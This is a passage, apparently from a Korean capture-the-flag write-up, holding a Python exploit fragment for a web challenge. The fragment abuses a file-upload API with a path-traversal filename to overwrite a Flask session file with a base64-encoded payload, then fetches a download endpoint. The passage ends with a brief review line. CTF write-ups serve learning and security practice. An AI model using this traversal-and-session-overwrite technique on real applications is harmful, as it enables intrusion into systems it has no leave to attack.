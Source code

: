 ```py
    payload = base64.b64encode(payload).decode()

    res = r.post(f'{url}/api/files/upload', data={'folder': 'data:image/jpeg,;', 'filename': 'dummy.png', 'content':base64.b64encode(b'hi').decode()})
    print(res.text)
    while 1:
        res = r.post(f'{url}/api/files/upload', data={'folder': '', 'filename': 'data:image/jpeg,;/../../../../../app/flask_session/2029240f6d1128be89ddc32729463129', 'content':payload})
        print(res.status_code)
        res = r.post(f'{url}/api/files/download', data={'filename': 'hi'})
        print(res.text)
```

## Review

Web 문제가 재밌었다.
